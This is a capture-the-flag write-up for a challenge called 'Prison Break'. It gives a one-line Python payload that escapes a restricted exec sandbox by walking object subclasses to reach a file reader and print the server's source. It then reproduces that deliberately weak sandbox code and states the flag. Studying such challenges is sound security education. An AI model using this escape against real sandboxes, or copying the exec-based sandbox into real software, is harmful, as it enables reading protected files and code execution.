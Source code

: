 ## Prison Break
The main idea finding the flag is just escaping Python Sandbox.

#### Step-1:
After I ran `nc chall.csivit.com 30407`, we get this a python sandbox.

I tried various commands like flag and ctf and all, but nothing worked.

#### Step-2:
Thanks to organiser, they gave some hint: https://ctf-wiki.github.io/ctf-wiki/pwn//linux/sandbox/python-sandbox-escape/

#### Step-3:
There I got this 1 liner to escape the sandbox.

**Payload:**
```python
print(().__class__.__bases__[0].__subclasses__()[40](__file__).read())
```

I got the source code, which had the flag.

```python
#!/usr/bin/python

import sys

class Sandbox(object):
    def execute(self, code_string):
        exec(code_string)
        sys.stdout.flush()

sandbox = Sandbox()

_raw_input = raw_input

main = sys.modules["__main__"].__dict__
orig_builtins = main["__builtins__"].__dict__

builtins_whitelist = set((
    #exceptions
    'ArithmeticError', 'AssertionError', 'AttributeError', 'Exception',

    #constants
    'False', 'None', 'True',

    #types
    'basestring', 'bytearray', 'bytes', 'complex', 'dict',

    #functions
    'abs', 'bin', 'dir', 'help'

    # blocked: eval, execfile, exit, file, quit, reload, import, etc.
))

for builtin in orig_builtins.keys():
    if builtin not in builtins_whitelist:
        del orig_builtins[builtin]

print("Find the flag.")
sys.stdout.flush()

def flag_function():
    flag = "csictf{m1ch34l_sc0fi3ld_fr0m_pr1s0n_br34k}"

while 1:
    try:
        sys.stdout.write(">>> ")
        sys.stdout.flush()
        code = _raw_input()
        sandbox.execute(code)

    except Exception:
        print("You have encountered an error.")
        sys.stdout.flush()
```

#### Step-4:
Finally the flag becomes:
`csictf{m1ch34l_sc0fi3ld_fr0m_pr1s0n_br34k}`